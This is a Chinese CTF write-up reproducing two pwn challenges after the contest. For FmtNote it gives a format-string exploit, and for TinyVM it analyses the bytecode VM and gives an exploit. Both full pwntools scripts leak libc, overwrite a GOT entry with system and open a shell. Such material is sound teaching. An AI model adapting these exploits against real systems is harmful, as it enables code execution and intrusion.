



#### 这比赛题目质量挺不错的，可惜去品尝御网杯这坨大份了，没来得及打，只能赛后复现了

:spoiler[**孩子们，有生之年不要打御网杯了，简直是PYCC代餐，弥补了没吃上PYCC的遗憾**]

# 1、FmtNote

一道常规思路的fmt，检查安全机制


有Canary的话先泄露，但先别急，如果不涉及修改栈返回地址，也不用去泄露Canary



检查发现没有栈溢出，那纯靠fmt打ret2libc就可以了

exp如下：
```python
from pwn import *

context.arch = "amd64"
context.log_level = "info"

elf = ELF("./pwn", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
p = process('./pwn')
# p = remote('')


def leak_printf(p):
    p.recvuntil(b">>> ")
    payload = b"%7$s\x00AAA" + p64(elf.got["printf"])
    p.send(payload)
    data = p.recvuntil(b">>> ", drop=True)
    return u64(data[:6].ljust(8, b"\x00"))

printf_addr = leak_printf(p)
libc.address = printf_addr - libc.sym["printf"]
system_addr = libc.sym["system"]

log.info("printf  = %#x", printf_addr)
log.info("libc    = %#x", libc.address)
log.info("system  = %#x", system_addr)

payload = fmtstr_payload(6, {elf.got["printf"]: system_addr}, write_size="short")
assert len(payload) <= 0x5f
p.send(payload)

p.recvrepeat(0.5)
p.sendline(b"/bin/sh")
p.interactive()
```

# 2、TinyVM

个人感觉很不错的VM pwn入门题，难度适中，完全可以慢慢手搓出来



给了libc和ld，还是考虑用ret2libc

main代码如下：
```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
        int nbytes; // [rsp+0h] [rbp-10h] BYREF
        int v5; // [rsp+4h] [rbp-Ch]
        unsigned __int64 v6; // [rsp+8h] [rbp-8h]

        v6 = __readfsqword(0x28u);
        sub_401276(a1, a2, a3);
        memset(&s_, 0, 0x100u);
        memset(&s__0, 0, 0x40u);
        dword_405400 = 0;
        printf("Size: ");
        if ( (unsigned int)__isoc99_scanf("%d", &nbytes) == 1 && nbytes > 0 && nbytes <= 512 )
        {
                getchar();
                v5 = read(0, &buf_, nbytes);
                if ( v5 > 0 )
                {
                        sub_401314((unsigned int)v5);
                        puts("Done.");
                        return 0;
                }
                else
                {
                        puts("Failed");
                        return 1;
                }
        }
        else
        {
                puts("Invalid");
                return 1;
        }
}

```

`sub_401314`是vm主体，这个程序的逻辑可以还原成：
1. 程序先读一个 bytecode 长度。
2. 长度必须满足 `0 < size <= 512`。
3. 然后把 bytecode 读入全局缓冲区 `vm_code`
4. 最后调用 `vm_run(size)` 解释执行

IDA 里可以看到几个关键全局变量相邻分布：

```text
0x4050c0  vm_mem       size 0x100
0x4051c0  vm_code      size 0x200
0x4053c0  vm_regs      size 0x40
0x405400  vm_cmp_flag  size 4
```

也就是：

```text
vm_mem  后面紧跟 vm_code
vm_code 后面紧跟 vm_regs
```

VM 一共有 4 个寄存器，编号是 `0, 1, 2, 3`

每个寄存器占 16 字节：

```c
struct vm_reg {
    uint32_t is_ptr;
    uint32_t padding;
    uint64_t value;
};
```

其中：

- `is_ptr = 0` 表示整数
- `is_ptr = 1` 表示指针
- `value` 保存整数值或者指针地址

寄存器检查函数：

```c
int vm_check_reg(unsigned int reg) {
    if (reg >= 4) {
        puts("Bad register");
        exit(1);
    }
    return reg;
}
```

所以 bytecode 里寄存器编号必须是 `0..3`

##  VM 指令集

VM 每次从 `vm_code[ip]` 取 1 字节 opcode，然后根据 opcode 解析后续操作数

### 立即数和移动

#### `0x10`: MOVI

格式：

```text
0x10 reg imm32
```

作用：

```c
reg.is_ptr = 0;
reg.value = sign_extend(imm32);
```

注意 imm32 会按有符号 32 位扩展成 64 位，所以可以写负数

例如：

```python
bytes([0x10, 1]) + p32(-0x98)
```

表示：

```text
r1 = -0x98
```

#### `0x11`: MOV

格式：

```text
0x11 dst src
```

作用：

```c
dst = src;
```

它会复制完整寄存器，包括 `is_ptr` 标签

### 算术和位运算

这些指令不会修改 `is_ptr` 标签，只会修改 `value`：

| Opcode | 格式 | 作用 |
|---:|---|---|
| `0x20` | `dst, src` | `dst.value += src.value` |
| `0x21` | `dst, src` | `dst.value -= src.value` |
| `0x22` | `dst, src` | `dst.value *= src.value` |
| `0x23` | `dst, src` | `dst.value ^= src.value` |
| `0x24` | `dst, src` | `dst.value &= src.value` |
| `0x25` | `dst, src` | `dst.value = src.value` |
| `0x26` | `dst, src` | `dst.value <<= src.value & 0x3f` |
| `0x27` | `dst, src` | `dst.value >>= src.value & 0x3f` |
| `0x28` | `reg` | `reg.value = ~reg.value` |
| `0x29` | `reg` | `reg.value = -reg.value` |

这个设计是漏洞的关键之一

如果一个寄存器本来是指针：

```text
r0.is_ptr = 1
r0.value = &vm_mem[0]
```

执行：

```text
r0.value += -0xa8
```

之后 `r0.is_ptr` 仍然是 1，但 `r0.value` 已经指向 `vm_mem` 外面了

### 比较和跳转

#### `0x2a`: CMP

格式：

```text
0x2a a b
```

作用：

```c
if (reg[a].value == reg[b].value)
    vm_cmp_flag = 0;
else if (reg[a].value >= reg[b].value)
    vm_cmp_flag = 1;
else
    vm_cmp_flag = -1;
```

#### 跳转指令

| Opcode | 格式 | 作用 |
|---:|---|---|
| `0x70` | `rel16` | 无条件相对跳转 |
| `0x71` | `rel16` | `vm_cmp_flag == 0` 时跳转 |
| `0x72` | `rel16` | `vm_cmp_flag != 0` 时跳转 |

跳转目标会检查是否在 bytecode 范围内

### 指针和内存操作

#### `0x30`: LEA

格式：

```text
0x30 reg off8
```

作用：

```c
reg.is_ptr = 1;
reg.value = &vm_mem[off8];
```

`off8` 是 1 字节无符号数，所以初始只能构造 `vm_mem + 0x00` 到 `vm_mem + 0xff` 之间的指针

#### `0x31`: LOAD

格式：

```text
0x31 dst ptr_reg
```

作用：

```c
if (ptr_reg.is_ptr != 1)
    exit(1);

dst.is_ptr = 0;
dst.value = *(uint64_t *)ptr_reg.value;
```

它要求源寄存器是指针，但没有检查指针是否还在 `vm_mem` 范围内

#### `0x32`: STORE

格式：

```text
0x32 ptr_reg src
```

作用：

```c
if (ptr_reg.is_ptr != 1)
    exit(1);

*(uint64_t *)ptr_reg.value = src.value;
```

同样，只检查 `is_ptr`，不检查地址范围

#### `0x33` / `0x34`: 1 字节读写

```text
0x33 dst ptr_reg   LOAD8
0x34 ptr_reg src   STORE8
```

逻辑和 `LOAD` / `STORE` 类似，只是读写 1 字节

### 输入输出

#### `0x40`: PRINT

格式：

```text
0x40 reg
```

如果寄存器是整数：

```c
printf("0x%lx\n", reg.value);
```

如果寄存器是指针：

```c
printf("@%p\n", reg.value);
```

这个指令可以用来泄露地址。

#### `0x41`: INPUT

格式：

```text
0x41 reg
```

作用：

```c
fgets(buf, 32, stdin);
reg.is_ptr = 0;
reg.value = strtoull(buf, NULL, 0);
```

也就是说，VM 运行过程中可以继续从 stdin 读一行数字

这对利用很方便,我们可以先用 bytecode 泄露 libc 地址，程序继续运行时，再输入计算出来的 `system` 地址

#### `0x60`: CALL

格式：

```text
0x60 ptr_reg
```

作用：

```c
if (ptr_reg.is_ptr != 1)
    exit(1);

puts((char *)ptr_reg.value);
```

从源码逻辑上看，它固定调用 `puts`,但如果我们提前把 `puts@got` 改成 `system`，这里就会变成：

```c
system((char *)ptr_reg.value);
```

## 利用分析
合法指针可以通过 `LEA` 构造：

```text
r0 = &vm_mem[0]
r0.is_ptr = 1
```

然后通过算术指令移动指针：

```text
r1 = printf@got - vm_mem
r0 += r1
```

执行后：

```text
r0.is_ptr = 1
r0.value = printf@got
```

此时 `r0` 的类型标签仍然是指针，所以 `LOAD r2, r0` 会通过检查，最终读出：

```c
r2.value = *(uint64_t *)printf@got;
```
直接任意地址读了

那我这么写，不就任意地址写了？
```text
r0 = &puts@got
r2 = system
STORE r0, r2
```

接下来就是常规的ret2libc :spoiler[出题人好像很喜欢这个打法]

exp如下：
```python
#!/usr/bin/env python3
from pwn import *
import struct

context.arch = "amd64"
context.log_level = "info"

elf = ELF("./pwn")
libc = ELF("./libc.so.6")
ld = "./ld-linux-x86-64.so.2"

VM_MEM = 0x4050C0
PRINTF_GOT = 0x405028
PUTS_GOT = 0x405018


def s32(value: int) -> bytes:
    return struct.pack("<i", value)


def movi(reg: int, imm: int) -> bytes:
    return bytes([0x10, reg]) + s32(imm)


def add(dst: int, src: int) -> bytes:
    return bytes([0x20, dst, src])


def lea(reg: int, off: int) -> bytes:
    return bytes([0x30, reg, off])


def load(dst: int, ptr: int) -> bytes:
    return bytes([0x31, dst, ptr])


def store(ptr: int, src: int) -> bytes:
    return bytes([0x32, ptr, src])


def print_reg(reg: int) -> bytes:
    return bytes([0x40, reg])


def input_reg(reg: int) -> bytes:
    return bytes([0x41, reg])


def call_ptr(reg: int) -> bytes:
    return bytes([0x60, reg])


def halt() -> bytes:
    return b"\xff"


def build_bytecode() -> bytes:
    code = b""

    code += lea(0, 0)
    code += movi(1, PRINTF_GOT - VM_MEM)
    code += add(0, 1)
    code += load(2, 0)
    code += print_reg(2)

    code += lea(0, 0)
    code += movi(1, PUTS_GOT - VM_MEM)
    code += add(0, 1)
    code += input_reg(2)
    code += store(0, 2)

    code += lea(3, 0)
    code += input_reg(1)
    code += add(3, 1)
    code += call_ptr(3)

    code += halt()
    assert len(code) <= 512
    return code


p = process("./pwn")
# p = remote("", 0)

code = build_bytecode()

p.sendlineafter(b"Size: ", str(len(code)).encode())
p.send(code)

p.recvuntil(b"0x")
leaked_printf = int(b"0x" + p.recvline().strip(), 16)
libc.address = leaked_printf - libc.sym["printf"]

binsh = next(libc.search(b"/bin/sh\x00"))

log.info("printf leak = %#x", leaked_printf)
log.info("libc base   = %#x", libc.address)
log.info("system      = %#x", libc.sym["system"])
log.info("/bin/sh     = %#x", binsh)

p.sendline(hex(libc.sym["system"]).encode())
p.sendline(str(binsh - VM_MEM).encode())
p.interactive()


```
